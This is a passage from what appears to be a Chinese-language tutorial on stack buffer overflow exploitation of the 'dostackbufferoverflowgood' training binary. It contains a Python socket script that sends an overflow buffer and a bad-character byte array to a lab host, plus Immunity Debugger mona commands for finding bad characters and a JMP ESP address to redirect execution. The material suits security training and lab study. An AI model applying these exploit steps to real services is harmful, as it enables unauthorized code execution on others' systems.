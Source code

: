 然后构造好新的脚本:

```
#!/usr/bin/python
import socket

buffer = "A" * 146 + "B" * 4
bad=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = buffer + bad

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.72.196',31337))
print("Sending: %s" % buffer)
s.send(bytes(payload + "\n\r", "latin-1"))
print("Done!")
s.close()
```

重新发送后程序会再次进入停止状态。接下来需要输入一个 mona 的比较语句查找坏字符串  

命令: !mona compare -f C:\mona\dostackbufferoverflowgood\bytearray.bin -a 006419E4(ESP 的值)

可以看到只有 00 和 0a，00 已经删除只需要删完 0a 即可。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qUgjumqZj0cVN3TfZBsibHzScE07HNchpSv8DUyjgibpXXeNsTtzp0kdQ/640?wx_fmt=png)

当然根据前面的方法我们需要再通知一次 Immunity Debugger

命令: !mona bytearray -b "\x00\x0a"

根据上面的脚本把 0a 删除以后重新运行。再次比较此时已经无坏字符串了。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qYb0d0zRFljQLLrlhw0Go5mmvZkHuvISzaibVXlS6EPc2ZKoR1pN1RbQ/640?wx_fmt=png)

05

_寻找 JMP ESP_

找完坏字符串以后，下一步就开始找 JMP ESP 了。先解释下当访问发送冲突时, ESP 会指向我们发送的内存当中。而 JMP ESP 指令可以把想执行的代码重定向到这里。可以理解为你把程序弄崩溃以后可以填写恶意代码随意操控程序。但填写恶意代码也是要看位置的不是想投哪就投哪。  

这里可以在 Immunity Debugger 底下输入框输入以下语句, 又两个结果任选一个。

!mona jmp -r esp -cpb "\x00\x0a"

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qIMbZnjyqQ4fzAricuzn4TDBlFBibJA01CVPEYq8d3APo6ibGQb4cNvfWQ/640?wx_fmt=png)
